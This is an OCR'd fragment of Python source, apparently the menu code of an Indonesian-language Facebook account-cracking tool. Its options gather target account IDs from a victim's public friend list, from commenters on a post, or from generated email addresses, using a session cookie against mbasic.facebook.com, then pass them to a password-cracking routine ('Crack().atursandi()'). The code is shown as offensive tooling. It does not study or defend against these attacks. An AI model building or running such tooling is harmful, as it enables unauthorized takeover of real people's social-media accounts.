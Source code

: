 [{color_text}04{P2}]. crack dari random email""",width=80,padding=(0,7),style=f"{color_panel}"))

		prints(Panel(f"""{P2}ketik {H2}bot{P2} untuk ke menu bot dan ketik {H2}lain{P2} untuk ke menu lain""",width=80,padding=(0,6),style=f"{color_panel}"))

		menu = console.input(f" {H2}• {P2}pilih menu : ")

		

		###----------[ ID PUBLIK ]---------- ###

		if menu in["1","01"]:

			prints(Panel(f"""{P2}masukan id target, pastikan id target bersifat publik dan tidak private""",subtitle=f"{P2}ketik {H2}me{P2} untuk dump dari teman sendiri",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id atau username : ")

			if user in["Me","me"]:

				user = Dump(cookie).GetUser()

			Dump(cookie).Dump_Publik(f"https://mbasic.facebook.com/{user}?v=friends")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["3","03"]:

			prints(Panel(f"""{P2}masukan id postingan, pastikan postingan bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id postingan : ")

			Dump(cookie).Dump_Komentar(f"https://mbasic.facebook.com/{user}")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["4","04"]:

			prints(Panel(f"""{P2}masukan nama dan format email gunakan '@' di awal contoh @gmail.com""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan nama : ")

			format = console.input(f" {H2}• {P2}masukan format : ")

			limit = console.input(f" {H2}• {P2}masukan limit : ")

			Dump(cookie).Dump_Email(user,format,limit)

			Crack().atursandi()

			

		###----------[ PENCARIAN NAMA ]---------- ###

		elif menu in["5","05"]:

			prints(Panel(f"""{P2}kamu bisa menggunakan koma (,) sebagai pemisah jika lebih dari 1 nama""",width=80,style=f"{color_panel}"))
